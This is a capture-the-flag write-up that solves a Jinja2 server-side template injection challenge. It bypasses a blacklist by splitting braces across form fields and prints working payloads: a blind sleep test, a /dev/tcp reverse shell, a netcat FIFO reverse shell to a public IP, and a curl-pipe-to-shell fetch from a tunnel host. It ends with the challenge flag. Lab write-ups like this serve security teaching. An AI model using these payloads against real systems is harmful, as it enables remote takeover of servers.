


 
In this challenge we need to exploit `SSTI` to achieve `RCE`.

As we can see, this is how the data is getting inserted to the template:
```py
mail = """
Hello team,

A new hacker wants to join our private Bug bounty program! Mary, can you schedule an interview?

 - Name: {{ hacker_name }}
 - Surname: {{ hacker_surname }}
 - Email: {{ hacker_email }}
 - Birth date: {{ hacker_bday }}

I'm sending you the details of the application in the attached CSV file:

 - '{{ hacker_name }}{{ hacker_surname }}{{ hacker_email }}{{ hacker_bday }}.csv'

Best regards,
"""
```

However, there is this `sanitize` function:
```py
def sanitize(value):
    blacklist = ['{{','}}','{ %','% }','import','eval','builtins','class','[',']']
    for word in blacklist:
        if word in value:
            value = value.replace(word,'')
    if any([bool(w in value) for w in blacklist]):
        value = sanitize(value)
    return value
```

And also this length limitation:
```py
if len(request.form["name"]) > 20:
    return render_template("index.html", error="Field 'name' is too long.")
if len(request.form["surname"]) >= 50:
    return render_template("index.html", error="Field 'surname' is too long.")
if len(request.form["email"]) >= 50:
    return render_template("index.html", error="Field 'email' is too long.")
if len(request.form["bday"]) > 10:
    return render_template("index.html", error="Field 'bday' is too long.")
```

The main problem here is that we can't send `{{` or `}}`, and same for `{ %` and `% }`.
In such case, there is no way to get `SSTI`. 

Is it?
We can see this line in the mail that is being sent:
```py
 - '{{ hacker_name }}{{ hacker_surname }}{{ hacker_email }}{{ hacker_bday }}.csv'
```

What will happen if we'll give this for example:
```py
hacker_name = '{'
hacker_surname = '{ 7*7 '
hacker_email = '}'
hacker_bday = '}'
```

When testing locally, we're getting `SSTI`!

Okay, i went to [PayloadAllTheThings SSTI Python](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md), and got this line:
```py
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```

Let's check for `Blind RCE`, like giving `sleep 10`, Notice we must divide it to the `surname` and `email`, because each one can contain up to 50 chars.

This will be our payload:
```py
name={&surname={cycler.__init__.__globals__.os.popen('sleep+10&email=').read()}&bday=}
```

As you can see, it takes 10 seconds until we get response



Now we just need to get our reverse shell, and find the flag.

However, for somehow i didn't manage to get that, even simple `nc` not working for me, and this is the same for other challenges on this platform, don't know why.

Any way, the payload for the reverse shell will be:
```
sh -i >& /dev/tcp/2.tcp.eu.ngrok.io/17645 0>&1
```

And the final payload (which working fine for me when running the challenge locally...)

```
name={&surname={cycler.__init__.__globals__.os.popen('echo 1337&email=|+nc+5.tcp.eu.ngrok.io+13190').read()}&bday=}
```
so, surname = `{cycler.__init__.__globals__.os.popen('echo 1337`, email = `| nc 5.tcp.eu.ngrok.io 13190').read()}`.



### Edit - keep working :D

Nowadays, `ngrok` isn't free any more for tcp, I found this [https://www.reddit.com/r/golang/comments/1rnd78x/i_built_an_opensource_ngrok_alternative_no_signup/](https://www.reddit.com/r/golang/comments/1rnd78x/i_built_an_opensource_ngrok_alternative_no_signup/) tool for http tunneling. I used him because it is very easy for use, and also, the name will be very short.
Simply install the tool:
```bash
curl -fsSL https://wormhole.bar/install.sh | sh
```

And then execute it:
```bash
wormhole http 3000
```

![[Pasted image 20260309224553.png]]

Now, set up http server for hosting files, on port `3000`:
```bash
python3 -m http.server 3000
```

Since I don't have any free vps, I'm gonna set port forwarding to my ip on the NAT, to port `1337`.
First, check what is your local IP:
```ps
PS C:\Users\avish> ipconfig | findstr "IPv4"
   IPv4 Address. . . . . . . . . . . : 192.168.41.1
   IPv4 Address. . . . . . . . . . . : 192.168.137.1
   IPv4 Address. . . . . . . . . . . : 192.168.33.17
   IPv4 Address. . . . . . . . . . . : 172.19.16.1
```

My local IP is `192.168.33.17`, since the IP of the router in the LAN is `192.168.33.1`. 
Let's access the web console of my local router, to set the port forwarding, simply go to `http://192.168.33.17` (your ip router of course)

![[Pasted image 20260309225050.png]]

Adjust it as needed with your local router, just google it. Now, we can check what is our real IP out there in the worlds, using websites like [https://whatismyipaddress.com/](https://whatismyipaddress.com/). In our case, the IP seems to be `164.138.117.211`.
![[Pasted image 20260309225416.png]]

So, last steps will be to set up local listener (this is powershell, that's why ncat.exe):
```ps
ncat.exe -nvlp 1337
```

Create the file `a.sh` with the payload of the reverse shell taken from [https://www.revshells.com/](https://www.revshells.com/).
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 164.138.117.211 1337 >/tmp/f
```

The file should be served via the python http server.
Lastly, the payload of the request will be:
```json
name={&surname={cycler.__init__.__globals__.os.popen('curl+&email=https://1le7s1.wormhole.bar/a.sh|sh').read()}&bday=}
```

We are ready to send the payload!

We got the revesre shell!
![[Pasted image 20260309225542.png]]

I searched for the `flag.txt` file:
```bash
web-serveur-ch73@challenge01:~$ find . -name "flag.txt" 2>/dev/null
./9f/35/cc/c7/95/80/59/46/ac/79/10/3d/aa/flag.txt
```

Okay, let's read it:
```bash
web-serveur-ch73@challenge01:~$ cat ./9f/35/cc/c7/95/80/59/46/ac/79/10/3d/aa/flag.txt
j1nj4_s3rv3r_S1de_T3mpl4te_1j3ct10ns_1n_pyth0n
```

**Flag:** ***`j1nj4_s3rv3r_S1de_T3mpl4te_1j3ct10ns_1n_pyth0n`***
